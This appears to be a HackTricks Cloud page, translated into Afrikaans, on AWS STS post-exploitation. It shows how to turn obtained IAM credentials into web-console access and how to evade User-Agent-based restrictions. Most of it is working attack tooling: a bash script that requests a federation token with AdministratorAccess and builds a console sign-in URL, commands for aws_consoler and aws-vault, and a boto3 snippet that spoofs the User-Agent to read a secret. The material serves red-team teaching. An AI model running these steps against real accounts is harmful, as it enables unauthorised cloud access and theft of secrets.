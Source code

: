 # AWS - STS Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

Vir meer inligting:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### Van IAM Krediete na Konsol

As jy daarin geslaag het om 'n paar IAM krediete te verkry, mag jy belangstel om **toegang tot die webkonsol** te verkry met behulp van die volgende gereedskap.\
Let daarop dat die gebruiker/rol die toestemming **`sts:GetFederationToken`** moet hê.

#### Pasgemaakte skrip

Die volgende skrip sal die standaard profiel en 'n standaard AWS ligging (nie gov en nie cn) gebruik om vir jou 'n geskrewe URL te gee wat jy kan gebruik om in te log in die webkonsol:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Jy kan **'n webkonsole skakel genereer** met [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Verseker dat die IAM-gebruiker `sts:GetFederationToken` toestemming het, of verskaf 'n rol om aan te neem.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) is 'n hulpmiddel om AWS-akkrediteerings veilig te stoor en toegang daartoe te verkry in 'n ontwikkelingsomgewing.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Jy kan ook **aws-vault** gebruik om 'n **blaaier-konsolesessie** te verkry.
{% endhint %}

### **Omseil User-Agent beperkings vanaf Python**

As daar 'n **beperking is om sekere aksies uit te voer gebaseer op die gebruikersagent** wat gebruik word (soos om die gebruik van die python boto3 biblioteek te beperk gebaseer op die gebruikersagent), is dit moontlik om die vorige tegniek te gebruik om **verbinding te maak met die webkonsol deur 'n blaaier**, of jy kan direk die **boto3 gebruikersagent** aanpas deur te doen:

{% code overflow="wrap" %}
```bash
# Shared by ex16x41
# Create a client
session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Change user agent of the client
client.meta.events.register( 'before-call.secretsmanager.GetSecretValue', lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'}) )

# Perform the action
response = client.get_secret_value(SecretId="flag_secret") print(response['SecretString'])
```
{% endcode %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
